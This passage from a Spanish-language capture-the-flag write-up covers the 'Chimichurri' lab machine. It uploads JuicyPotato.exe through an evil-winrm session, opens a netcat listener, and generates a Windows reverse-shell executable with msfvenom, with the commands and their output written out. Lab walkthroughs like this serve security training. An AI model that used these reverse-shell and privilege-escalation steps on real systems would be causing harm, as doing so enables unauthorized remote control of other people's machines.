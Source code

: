 Podemos descargar **Juicy Potato** del siguiente link:
* <a href="https://github.com/ohpe/juicy-potato/releases/tag/v0.1" target="_blank">Repositorio de ohpe: Juicy Potato - Releases</a>

Y como ya tenemos una sesión de **evil-winrm**, podemos cargarlo directamente, si lo guardamos en nuestro directorio de trabajo:

```batch
*Evil-WinRM* PS C:\Users\hacker\Desktop> upload JuicyPotato.exe
                                        
Info: Uploading /../TheHackersLabs/Chimichurri/content/JuicyPotato.exe to C:\Users\hacker\Desktop\JuicyPotato.exe
                                        
Data: 463528 bytes of 463528 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\hacker\Desktop> dir

    Directorio: C:\Users\hacker\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/23/2025   8:13 PM         347648 JuicyPotato.exe
-a----        6/30/2024   7:19 PM             15 perico.txt
-a----        6/27/2024  12:57 PM             29 user.txt
```
Ahí lo tenemos.

Abrimos una **netcat** en nuestra máquina usando **rlwrap**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```
Ahora, necesitamos usar un binario de **netcat** que nos permita mandar la conexión hacia nuestra **netcat** o crear y usar una **Reverse Shell**.

En mi caso voy a crear y usar una **Reverse Shell**. La creamos con **msfvenom**:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=Tu_IP LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```
Listo, creado.

Carguémosla a nuestra sesión de **evil-winrm**:

```batch
*Evil-WinRM* PS C:\Users\hacker\Desktop> upload shell.exe
                                        
Info: Uploading /../TheHackersLabs/Chimichurri/content/shell.exe to C:\Users\hacker\Desktop\shell.exe
                                        
Data: 98400 bytes of 98400 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\hacker\Desktop> dir

    Directorio: C:\Users\hacker\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/23/2025   8:13 PM         347648 JuicyPotato.exe
-a----        6/30/2024   7:19 PM             15 perico.txt
-a----        1/23/2025   8:15 PM          73802 shell.exe
-a----        6/27/2024  12:57 PM             29 user.txt
```
